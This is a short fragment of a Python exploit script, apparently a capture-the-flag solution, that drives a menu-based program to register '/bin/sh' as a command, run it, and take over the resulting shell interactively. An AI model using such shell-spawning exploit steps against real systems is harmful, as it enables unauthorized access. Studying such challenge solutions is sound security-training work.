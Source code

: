```py
p.sendline(b"/bin/sh")

p.recvuntil(b">>") # create command
p.sendline(b"1")
p.recvuntil(b">>")
p.sendline(b"/bin/sh")
p.recvuntil(b">>")
p.sendline(b"yey")

p.recvuntil(b">>") # run it
p.sendline(b"4")
p.recvuntil(b">>")
p.sendline(b"2")

p.interactive()
```




